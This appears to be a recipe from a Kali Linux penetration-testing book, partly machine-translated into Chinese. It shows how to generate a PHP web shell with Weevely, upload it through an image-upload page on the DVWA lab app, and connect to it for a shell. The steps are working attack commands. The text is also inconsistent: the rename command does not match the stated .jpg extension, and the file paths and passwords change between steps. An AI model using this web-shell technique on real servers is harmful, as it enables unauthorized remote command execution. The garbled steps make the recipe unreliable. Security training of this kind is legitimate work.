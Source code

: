 ## 准备好了吗

要完成这一步骤，您需要在 Oracle Virtualbox 中运行 Kali Linux 并连接到 Internet。不需要其他先决条件。

## 怎么做。。。

对于此配方，您需要执行以下步骤：

1.  Open the target application file upload page, as shown in the following screenshot:

    ![How to do it...](graphics/image_07_043.jpg)

2.  Open the terminal and type `Weevely`; it will display the sample syntax for use, as shown in the following screenshot:

    ![How to do it...](graphics/image_07_044.jpg)

3.  现在我们需要在 PHP 中生成一个 shell，我们可以使用以下命令来实现：

    ```
          Weevely generate <password-to-connect> /root/weevely.php      Weevely generate uytutu765iuhkj /root/weevely.php

    ```

4.  键入`ls`，您将看到一个名为`weevely.php`的新文件已经创建，因为我们的应用程序只允许上传图像，所以我们需要将该文件重命名为`.jpg`扩展名，如下命令所示：

    ```
    mv weevely.php agent.php

    ```

5.  Open the target browser with the target application file upload module, click on **Browse**, and select this file from the `/root` directory and upload it, as shown the following screenshot:

    ![How to do it...](graphics/image_07_045.jpg)

6.  成功消息显示文件上载的路径。复制路径并打开终端并键入`weevely <Complete-path-to-uploaded-file> <password>`，如以下命令所示：

    ```
          Weevely http://172.17.0.2/dvwa/hackable/uploads/weevely.php.jpg       yoursecretpassword

    ```

7.  Weevely will try to connect to the uploaded file and will present to you the limited (or restricted) shell it has obtained, using which you can run system commands and perhaps use it to escalate your privileges, as shown in the following screenshot:

    ![How to do it...](graphics/image_07_046.jpg)

8.  Another good feature that Weevely provides is that you can use system commands directly from a single command. In order to understand this type `weevely help`, as shown in the following screenshot:

    ![How to do it...](graphics/image_07_047.jpg)
